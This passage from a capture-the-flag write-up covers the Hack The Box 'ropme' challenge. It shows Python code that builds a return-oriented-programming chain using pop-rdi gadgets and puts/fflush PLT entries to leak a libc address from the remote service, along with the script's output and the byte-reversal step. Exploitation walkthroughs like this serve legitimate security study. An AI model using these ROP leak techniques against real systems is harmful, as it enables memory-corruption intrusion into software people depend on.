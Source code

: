 ```Python
payload = PAD
payload += gadget_pop_rdi_ret   # ret to here
payload += puts_got             # this will be popped to RDI
payload += puts_plt             # return here with stack aligned

payload += gadget_pop_rdi_ret   # ret to here
payload += NULL                 # this will be popped to RDI
payload += fflush_plt           # return here

remote(payload)
```

This is the output we see when we run the script:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
server responded:
�F�~N

9046d87e4e7f0a
```

The unreadable characters are obviously not important, what we care about is the hex representation of the response which we see in the last line.
Notice how `9046d87e4e7f0a` doesn't really look like an address... **but** let's take a look at it for a second.

The last byte is `0a` which is a new line which makes sense because `puts` appends a new line character to the end of the string when it prints it out. OK, what about the next byte? `7f` that does look like a start of an address, so maybe it's just that the order of the bytes is reversed, let's modify the code a little bit:

```Python
def remote(data):
    # ....
    ans = conn.recv(1024)
    print "server responded:"
    print ans

    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "0x" + binascii.hexlify(ans)
```

Now we see:

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
server responded:
�vоS

0x7f53bed07690
```


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me